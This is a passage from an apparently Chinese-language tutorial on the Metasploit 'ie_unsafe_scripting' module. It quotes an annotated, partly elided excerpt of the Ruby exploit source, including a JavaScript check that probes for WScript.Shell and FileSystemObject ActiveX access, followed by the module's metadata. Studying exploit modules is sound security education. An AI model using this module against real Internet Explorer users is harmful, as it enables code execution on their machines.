 对于 `ie_unsafe_scripting`  的源码部分，可以通过 `cat` 命令进行查看。`Metasploit` 的攻击模块由 Ruby 语言进行编写。攻击 IE 漏洞的模块关键部分源码如下所示：
```
# 引入一些必要的模块 core、exe、powershell 等
require 'msf/core'
require 'msf/util/exe'
require 'msf/core/exploit/powershell'

class MetasploitModule < Msf::Exploit::Remote

  Rank = ManualRanking

  include Msf::Exploit::Remote::BrowserExploitServer
  include Msf::Exploit::EXE
  include Msf::Exploit::Powershell

  # 实例化 ActiveXObject 的一些信息
  # 对于 ActiveX 是什么，可以查看第 3 小结基础知识介绍，其中有介绍 ActiveX
  VULN_CHECK_JS = %Q|
    try {
      new ActiveXObject("WScript.Shell");
      new ActiveXObject("Scripting.FileSystemObject");
      is_vuln = true;
    } catch(e) {}
  |
...
...
...

# 使用函数 initalize 初始化相关信息
def initialize(info = {})
    super(update_info(info,
      
      # 模块的名字信息
      'Name'                  => 'Microsoft Internet Explorer Unsafe Scripting Misconfiguration',
		
	  # 模块的描述信息	，描述信息过长已经省略
      'Description'           => %q{
		...
		...
		...
      },
		
	  # 模块的相关证书
      'License'               => MSF_LICENSE,
 
      # 模块的作者信息
      'Author'                =>
        [
          'natron',
          'Ben Campbell' # PSH and remove ADODB.Stream
        ],
        'References'          =>
        [
          [ 'URL', 'http://support.microsoft.com/kb/182569' ],
          [ 'URL', 'http://blog.invisibledenizen.org/2009/01/ieunsafescripting-metasploit-module.html' ],
          [ 'URL', 'http://support.microsoft.com/kb/870669']
        ],
        'DisclosureDate'      => 'Sep 20 2010',
        'Platform'            => 'win',
        
        # 浏览器的信息描述
        'BrowserRequirements' => {
```
